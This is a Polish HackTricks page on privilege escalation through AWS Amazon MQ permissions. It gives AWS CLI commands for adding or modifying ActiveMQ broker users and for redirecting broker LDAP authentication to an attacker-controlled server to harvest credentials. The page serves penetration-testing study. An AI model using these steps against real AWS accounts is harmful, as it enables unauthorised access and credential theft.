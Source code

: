 # AWS - Przywileje MQ

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## MQ

Aby uzyskać więcej informacji na temat MQ, sprawdź:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Z tymi uprawnieniami możesz **utworzyć nowego użytkownika w brokerze ActimeMQ** (to nie działa w RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potencjalne skutki:** Dostęp do wrażliwych informacji podczas poruszania się po ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Z tymi uprawnieniami możesz **utworzyć nowego użytkownika w brokerze ActimeMQ** (to nie działa w RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potencjalne skutki:** Dostęp do wrażliwych informacji podczas nawigacji przez ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Jeśli broker używa **LDAP** do autoryzacji z **ActiveMQ**. Istnieje możliwość **zmiany** konfiguracji serwera LDAP na **ten kontrolowany przez atakującego**. W ten sposób atakujący będzie mógł **ukraść wszystkie dane uwierzytelniające przesyłane przez LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Jeśli udałoby ci się znaleźć oryginalne dane uwierzytelniające używane przez ActiveMQ, mógłbyś przeprowadzić atak typu MitM, ukraść dane uwierzytelniające, użyć ich na oryginalnym serwerze i wysłać odpowiedź (może wystarczy ponownie wykorzystać skradzione dane uwierzytelniające).

**Potencjalny wpływ:** Kradzież danych uwierzytelniających ActiveMQ

{% hint style="success" %}
Dowiedz się i ćwicz Hacking w AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking w GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plan subskrypcyjny**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
